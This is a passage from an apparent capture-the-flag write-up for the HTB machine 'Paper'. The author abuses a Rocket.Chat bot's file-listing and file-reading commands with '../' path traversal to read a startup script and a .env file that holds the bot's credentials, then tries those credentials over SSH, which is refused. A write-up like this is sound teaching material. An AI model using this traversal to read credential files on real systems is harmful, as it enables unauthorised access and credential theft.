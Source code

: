 > sid @ 11:48 PM: recyclops what kind of bear is the best?
>
> recyclops <Bot> @ 11:48 PM: That's a ridiculous question

My feelings are irreparably hurt. Moving on, attempting to list the contents of all directories also elicits interesting output from the bot:

> sid @ 11:48 PM: list ../*
>
> recyclops <Bot> @ 11:48 PM: Stop injecting OS commands!

I assume the wildcard was problematic. The help output (`recylops help`) allows for only two security-relevant commands: listing files, (already shown), and requesting files with `file`, which is essentially `cat`. Running `file` on `../hubot/start.sh` reveals the following:

```bash
 <!=====Contents of file ../hubot/start_bot.sh=====>
#!/bin/bash
cd /home/dwight/hubot
source /home/dwight/hubot/.env
/home/dwight/hubot/bin/hubot
#cd -
<!=====End of file ../hubot/start_bot.sh=====>
```

Then, doing the same on the source file `../hubot/.env` prints this:

```bash
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=!REDACTED
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

The credential set for user *recyclops* has been obtained! Note that I have redacted the password in the field above; the actual output contains the real password.

### SSH

Recalling the earlier Nmap scan, port 22 for SSH is open — therefore, let's attempt to log in with the `recyclops` bot credentials.

```text
$ ssh recyclops@paper.htb
The authenticity of host 'paper.htb (10.10.11.143)' can't be established.
ECDSA key fingerprint is SHA256:2eiFA8VFQOZukubwDkd24z/kfLkdKlz4wkAa/lRN3Lg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'paper.htb,10.10.11.143' (ECDSA) to the list of known hosts.
recyclops@paper.htb's password: 
Permission denied, please try again.
```
